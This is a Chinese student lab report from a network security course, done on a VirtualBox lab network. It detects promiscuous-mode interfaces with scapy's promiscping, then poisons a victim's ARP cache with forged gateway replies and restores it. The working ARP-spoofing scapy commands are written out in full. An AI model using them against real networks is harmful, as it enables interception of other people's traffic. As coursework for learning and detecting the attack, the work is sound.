# 实验四：网络监听

## 实验环境

- VirtualBox 6.1
- 攻击者主机（Attacker）：Kali 
- 网关（Gateway）：Debian 
- 靶机（Victim）：Kali 

## 网络拓扑



如图所示网络中的节点基本信息如下：

- 攻击者主机
  - 08:00:27:1c:b3:37 / eth1
  - 172.16.111.101



- 受害者主机
  - 08:00:27:df:e2:45 / eth0
  - 172.16.111.131



- 网关
  - 08:00:27:c3:23:6c / enp0s9
  - 172.16.111.1



## 实验准备

### 安装scapy

在攻击者主机提前安装好 [scapy](https://scapy.net/)

```shell
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```





## 实验一：检测局域网中的异常终端

```shell
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```



```shell
# 在攻击者主机上开启 scapy
sudo scapy
```



```shell
# 在 scapy 的交互式终端输入以下代码回车执行（受害者主机的IP地址）
pkt = promiscping("172.16.111.131")
```



```shell
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```



```shell
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.131")
```



这一步我的攻击者主机最开始没有收到来自受害者主机的数据包，向同学求助之后才发现，是我的攻击者主机没有开内部网络的网卡，这个操作需要让攻击者主机和受害者主机在同一个局域网内，这样才能收到回复。

- 原理
  - promiscping命令会发送ARP who-has请求
- 混杂模式：接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
- 普通模式：网卡只接收发给本机的包

```shell
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```


## 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 scapy 交互式终端完成

```shell
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```



```shell
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast,timeout=2,iface="eth1")
# eth1是攻击者的网卡

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```


网关的MAC地址为`08:00:27:c3:23:6c`

```shell
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.131
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.131", hwdst="08:00:27:1c:b3:37")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```



此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```shell
ip neigh
```


回到攻击者主机上的 scapy 交互式终端继续执行命令。

```shell
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:c3:23:6c", pdst="172.16.111.131", hwdst="08:00:27:df:e2:45")
sendp(restorepkt1, count=100, inter=0.2)
```



此时在受害者主机上准备“刷新”网关 ARP 记录

```shell
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```



## 参考资料

- [黄大的课本——实验四：网络监听](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [经验分享：解决实验过程中攻击者主机无法正确发送ARP广播请求](http://courses.cuc.edu.cn/course/90732/forum#/topics/348207?show_sidebar=false&scrollTo=topic-348207&pageIndex=1&pageCount=1&topicIds=350415,348207,344841&predicate=lastUpdatedDate&reverse)